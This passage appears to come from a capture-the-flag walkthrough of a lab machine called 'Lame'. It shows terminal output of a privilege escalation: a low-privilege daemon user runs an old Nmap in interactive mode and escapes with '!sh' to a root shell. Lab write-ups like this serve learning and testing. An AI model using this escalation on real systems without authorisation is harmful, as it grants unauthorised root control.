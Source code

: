 ```
daemon@lame:/root$ /usr/bin/nmap -V
/usr/bin/nmap -V

Nmap version 4.53 (http://insecure.org)
```

Execute nmap to get root

```
daemon@lame:/root$ /usr/bin/nmap --interactive
/usr/bin/nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
```